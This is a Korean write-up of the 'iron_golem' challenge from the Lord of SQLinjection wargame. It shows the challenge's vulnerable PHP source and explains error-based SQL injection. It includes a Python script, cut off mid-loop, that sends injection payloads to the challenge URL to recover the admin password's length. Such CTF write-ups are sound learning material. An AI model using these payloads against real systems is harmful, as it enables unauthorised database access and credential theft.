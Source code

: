```yaml
---
title: \[LOS] Writeup -2
description: Lord of SQLinjection
date: 2024-11-10 00:11:00 +09:00
last_modified_at: 2024-11-10 00:11:00 +09:00
categories: [Hacking, Web]
# toc: false 오른쪽에 있는 목차 비활성화
# comments: false 댓글 비활성화
tags:
  [
    Hacking,
    Database,
  ]
---
```

## Iron_golem
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit(mysqli_error($db));
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```
### exploit
sleep과 benchmark를 필터링하는 것을 알 수 있다.<br>
이 두 함수는 timebased SQL-I를 시도할 때 사용하는 것이기에 TimeBased를 사용하지 말라는 뜻으로 생각하고 분석을 했다.

pw에 '를 입력했을 때 오류가 나는 것을 알 수 있고 이를 바탕으로 Error Based SQL-I를 시도해 볼 수 있다.

의도적으로 error를 발생시켜 쿼리가 참인지 알 수 있다.
mysql에서 단일 값을 반환해야하는데 두개의 행을 반환하면 오류가 날 수 있다는 것을 이용하여 python 코드를 작성했다.
```python
import requests
url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for len in range(100):
  print(len)
  param = {'pw': f"' or if(length(pw)={len},(select 1 union select 2), 0)#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if "Subquery" in res.text:
    print(len)
    break

length = 32
password = ""
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
```